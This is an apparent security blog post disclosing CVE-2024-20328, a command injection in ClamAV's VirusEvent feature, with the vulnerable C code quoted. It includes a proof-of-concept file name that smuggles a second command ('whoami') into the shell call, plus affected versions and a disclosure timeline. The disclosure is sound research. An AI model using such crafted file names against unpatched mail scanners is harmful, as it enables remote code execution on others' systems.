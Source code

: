 ```yaml
---
layout: single
title:  "CVE-2024-20328 - ClamAV Not So Calm"
date:   2024-02-07 12:00:00 +0530
categories: Vulnerabilites
---
```

# CVE-2024-20328 - ClamAV Not So Calm
On Janurary 2nd, 2024, I found a vulnerability in [ClamAV](https://www.clamav.net/), a popular open-source antivirus engine.

A crafted file name can cause a command injection vulnerability in ClamAV's `VirusEvent` feature. This can be exploited by an attacker to execute arbitrary code on the system running ClamAV - clamd.

Since ClamAV is being used as an antivirus engine to scan files especially in mail servers, this vulnerability can be exploited by an attacker to execute arbitrary code on the system running ClamAV - clamd from remote without user interaction.

## Vulnerability
The `VirusEvent` feature allows Clamd to execute a command when a virus is detected. The command is executed in the following format:
```
VirusEvent /usr/local/bin/send_sms 123456789 "VIRUS ALERT: %v in %f"
```

Where `%v` is the virus name and `%f` is the file name. The file name is not sanitized, allowing an attacker to inject a command into the command string.

`VirusEvent` is a configuration option in the `clamd.conf` file. The command is executed with the privileges of the user running Clamd.

In the file `clamd/clamd_others.c`, the function `virusaction` is the function that handles the `VirusEvent` feature. The function is defined as follows:
```c
void virusaction(const char *filename, const char *virname,
                 const struct optstruct *opts)
{
    pid_t pid;
    const struct optstruct *opt;
    char *buffer_file, *buffer_vir, *buffer_cmd, *path;
    const char *pt;
    size_t i, j, v = 0, f = 0, len;
    char *env[4];

    if (!(opt = optget(opts, "VirusEvent"))->enabled)
        return;

    path   = getenv("PATH");
    env[0] = path ? strdup(path) : NULL;
    j      = env[0] ? 1 : 0;
    /* Allocate env vars.. to be portable env vars should not be freed */
    buffer_file =
        (char *)malloc(strlen(VE_FILENAME) + strlen(filename) + 2);
    if (buffer_file) {
        sprintf(buffer_file, "%s=%s", VE_FILENAME, filename);
        env[j++] = buffer_file;
    }

    buffer_vir =
        (char *)malloc(strlen(VE_VIRUSNAME) + strlen(virname) + 2);
    if (buffer_vir) {
        sprintf(buffer_vir, "%s=%s", VE_VIRUSNAME, virname);
        env[j++] = buffer_vir;
    }
    env[j++] = NULL;

    pt = opt->strarg;
    while ((pt = strstr(pt, "%v"))) {
        pt += 2;
        v++;
    }
    pt = opt->strarg;
    while ((pt = strstr(pt, "%f"))) {
        pt += 2;
        f++;
    }
    len = strlen(opt->strarg);
    buffer_cmd =
        (char *)calloc(len + v * strlen(virname) + f * strlen(filename) + 1, sizeof(char));
    if (!buffer_cmd) {
        if (path)
            xfree(env[0]);

        xfree(buffer_file);
        xfree(buffer_vir);
        return;
    }
    for (i = 0, j = 0; i < len; i++) {
        if (i + 1 < len && opt->strarg[i] == '%' && opt->strarg[i + 1] == 'v') {
            strcat(buffer_cmd, virname);
            j += strlen(virname);
            i++;
        } else if (i + 1 < len && opt->strarg[i] == '%' && opt->strarg[i + 1] == 'f') {
            strcat(buffer_cmd, filename);
            j += strlen(filename);
            i++;
        } else {
            buffer_cmd[j++] = opt->strarg[i];
        }
    }

    pthread_mutex_lock(&virusaction_lock);
    /* We can only call async-signal-safe functions after fork(). */
    pid = vfork();
    if (pid == 0) { /* child */
        _exit(execle("/bin/sh", "sh", "-c", buffer_cmd, NULL, env));
    } else if (pid > 0) { /* parent */
        pthread_mutex_unlock(&virusaction_lock);
        while (waitpid(pid, NULL, 0) == -1 && errno == EINTR) continue;
    } else {
        pthread_mutex_unlock(&virusaction_lock);
        logg(LOGG_ERROR, "VirusEvent: fork failed.\n");
    }
    if (path)
        xfree(env[0]);

    xfree(buffer_cmd);
    xfree(buffer_file);
    xfree(buffer_vir);
}
```
The function first checks if the `VirusEvent` feature is enabled. If it is, it then gets the `PATH` environment variable and stores it in `env[0]`. It then allocates memory for the `VE_FILENAME` and `VE_VIRUSNAME` environment variables, and stores them in `env[1]` and `env[2]` respectively. It then allocates memory for the command string, and replaces `%v` and `%f` with the virus name and file name respectively. It then calls `vfork()` to create a child process, and executes the command string in the child process. The parent process waits for the child process to finish executing the command string.

The vulnerability is in the way `buffer_cmd` being handled without being sanitized. An attacker can inject a command into the command string, and execute arbitrary code on the system running Clamd.

The following line is the vulnerable line:
```c
_exit(execle("/bin/sh", "sh", "-c", buffer_cmd, NULL, env));
```

## Exploit
Assuming clamd.conf is configured as follows:
```
VirusEvent "echo VIRUS DETECTED: %v in the path %f >> /dev/stdout"
```

The following file name will cause the command to be executed:
```bash
# xmrig;whoami; - payload.
echo VIRUS DETECTED: [signature] in the path xmrig;whoami; >> /dev/stdout
```

Output:
```
VIRUS DETECTED: Multios.Coinminer.Miner-6781728-2.UNOFFICIAL in the path
/host/crypto-miner/xmrig
root
```

## Who is affected?
0.104 (all patch versions)
0.105 (all patch versions)
1.0.0 through 1.0.4 (LTS)
1.1 (all patch versions)
1.2.0 and 1.2.1


## Timeline
- Janurary 2nd, 2024 - Vulnerability found.
- Janurary 2nd, 2024 - Vulnerability reported to ClamAV team.
- Feburary 7th, 2024 - Vulnerability fixed by ClamAV team.

![CVE-2024-20328](https://raw.githubusercontent.com/amitschendel/amitschendel.github.io/master/assets/images/clam.png)